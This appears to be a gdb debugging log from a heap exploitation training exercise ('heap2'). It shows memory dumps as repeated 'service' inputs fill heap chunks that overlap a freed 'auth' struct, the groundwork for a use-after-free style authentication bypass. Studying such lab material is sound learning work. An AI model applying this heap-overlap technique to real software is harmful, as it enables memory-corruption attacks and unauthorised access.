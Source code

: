 ```shell
----------service---------------------------------------------------------------
$40 = 0x0
[ auth = 0x804c008, service = (nil) ]
service AAAAAAA

Breakpoint 1, 0x0804895f in main (argc=1, argv=0xbffff864) at heap2/heap2.c:20
20      in heap2/heap2.c
0x804c000:      0x00000000      0x00000011      0x41414120      0x41414141
0x804c010:      0x0000000a      0x00000ff1      0x00000000      0x00000000
0x804c020:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c030:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c040:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c050:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c060:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c070:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c080:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c090:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c0a0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c0b0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c0c0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c0d0:      0x00000000      0x00000000      0x00000000      0x00000000
----------auth------------------------------------------------------------------
$41 = {name = " AAAAAAA\n\000\000\000\361\017", '\000' <repeats 17 times>, auth = 0}
----------service---------------------------------------------------------------
$42 = 0x804c008 " AAAAAAA\n"
[ auth = 0x804c008, service = 0x804c008 ]
service BBBBBBB

Breakpoint 1, 0x0804895f in main (argc=1, argv=0xbffff864) at heap2/heap2.c:20
20      in heap2/heap2.c
0x804c000:      0x00000000      0x00000011      0x41414120      0x41414141
0x804c010:      0x0000000a      0x00000011      0x42424220      0x42424242
0x804c020:      0x0000000a      0x00000fe1      0x00000000      0x00000000
0x804c030:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c040:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c050:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c060:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c070:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c080:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c090:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c0a0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c0b0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c0c0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c0d0:      0x00000000      0x00000000      0x00000000      0x00000000
----------auth------------------------------------------------------------------
$43 = {name = " AAAAAAA\n\000\000\000\021\000\000\000 BBBBBBB\n\000\000\000\341\017\000", auth = 0}
----------service---------------------------------------------------------------
$44 = 0x804c018 " BBBBBBB\n"
[ auth = 0x804c008, service = 0x804c018 ]
service CCCCCCC

Breakpoint 1, 0x0804895f in main (argc=1, argv=0xbffff864) at heap2/heap2.c:20
20      in heap2/heap2.c
0x804c000:      0x00000000      0x00000011      0x41414120      0x41414141
0x804c010:      0x0000000a      0x00000011      0x42424220      0x42424242
0x804c020:      0x0000000a      0x00000011      0x43434320      0x43434343
0x804c030:      0x0000000a      0x00000fd1      0x00000000      0x00000000
0x804c040:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c050:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c060:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c070:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c080:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c090:      0x00000000      0x00000000      0x00000000      0x00000000
```